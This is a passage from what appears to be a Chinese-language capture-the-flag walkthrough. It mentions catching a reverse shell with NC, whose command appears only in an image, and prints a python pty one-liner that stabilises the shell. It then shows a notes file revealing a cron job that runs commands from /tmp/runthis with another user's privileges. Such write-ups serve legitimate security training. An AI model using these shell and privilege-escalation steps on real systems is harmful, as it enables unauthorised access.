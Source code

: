 ![](<../../.gitbook/assets/image (21) (1) (1) (1) (1).png>)

NC进行反弹shell。

![](<../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1).png>)

使用python使终端shell稳定。

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

来到`/home/eezeepz`目录下面，查看笔记内容，笔记大概说可执行命令在/home/admin里面，然后你需要在/tmp/runthis生成命令行才可以执行（定时计划）。

```
cat notes.txt
Yo EZ,

I made it possible for you to do some automated checks, 
but I did only allow you access to /usr/bin/* system binaries. I did
however copy a few extra often needed commands to my 
homedir: chmod, df, cat, echo, ps, grep, egrep so you can use those
from /home/admin/

Don't forget to specify the full path for each binary!

Just put a file called "runthis" in /tmp/, each line one command. The 
output goes to the file "cronresult" in /tmp/. It should 
run every minute with my account privileges.

- Jerry
```
